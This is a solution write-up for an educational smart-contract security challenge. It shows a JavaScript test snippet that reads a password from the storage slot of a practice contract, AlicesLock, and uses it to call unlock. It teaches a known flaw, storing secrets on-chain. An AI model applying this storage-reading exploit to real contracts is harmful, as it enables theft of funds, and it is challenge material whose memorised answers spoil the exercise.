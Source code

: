 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

